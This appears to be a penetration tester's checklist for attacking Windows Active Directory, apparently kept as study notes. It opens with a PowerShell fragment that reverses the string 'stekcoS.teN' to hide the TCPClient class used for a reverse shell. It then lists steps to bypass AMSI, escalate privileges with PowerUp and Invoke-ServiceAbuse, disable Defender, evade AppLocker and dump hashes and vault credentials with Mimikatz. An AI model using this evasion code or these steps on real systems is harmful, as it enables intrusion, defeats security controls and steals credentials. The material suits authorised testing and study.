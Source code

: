 ```
$string = "stekcoS.teN"
$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
$client = New-Object System.$class.TCPClient($IPAddress,$PORT)
}
```

# Methodology Master
---
## 0. Miscellaneous
> 1. [ ] Remember to bypass AMSI on every new user
> 2. [ ] Check the Execution policy language mode
> 3. [ ] Check all the commands you are allowed to execute

## 1. Domain Enumeration
> 1. [ ] Complete basic Enum
> 2. [ ] enumerate all users
> 3. [ ] enumerate all domain computers
> 4. [ ] GPO && OU
> 5. [ ] ACL's 
> 6. [ ] Trusts
> 7. [ ] Blood-hound
> 8. [ ] SPN

## 2. Local Priv Esc
> 1. [ ] Run *powerups.ps1*
> 2. [ ] **ServiceUnquoted**
> 3. [ ] **ModifiableServiceFile**
> 4. [ ] **ModifiableService**
> 5. [ ] Priv Esc for the above use : **Invoke-ServiceAbuse**
> 6. [ ] **whoami /all** || **whoami /priv**
> 7. [ ] Check Windows abuse and priv esc
> 8. [ ] Hunt for Local Admin users if available from Trust Enum
> 9. [ ] Priv Esc for the above use : PSsession or refer **Invoke-Command**
> 10. [ ] Check if you can Priv esc using *jenkins*
> 11. [ ] Lastly add the user to the localgroup administrators

**NOTE : ONCE A LOCAL ADMINISTRATOR RUN PS as ADMINISTRATOR**

## 3. Domain Admin Priv Esc
> 1. [ ] Hunt for Local Admin Users
> 2. [ ] Check The local Admin Access
> 3. [ ] If yes, Use **Invoke-Command** or **Enter-PSSession**

## 4. Domain Admin Persistence [app locker enabled]
> 1. [ ] Check the Execution policy language mode
> 2. [ ] Checking AppLockerPolicy and note the paths available for us
> 3. [ ] Disable Defender protections
> 4. [ ] Modify Invoke-Mimikatz.ps1 script to call the function in the script itself because we can't dot source files if in constrained language mode
> 5. [ ] run script without dot sourcing it
> 6. [ ] Dump the hashes
> 7. [ ] Get the ekeys
> 8. [ ] Get Credentials from the credentials vault
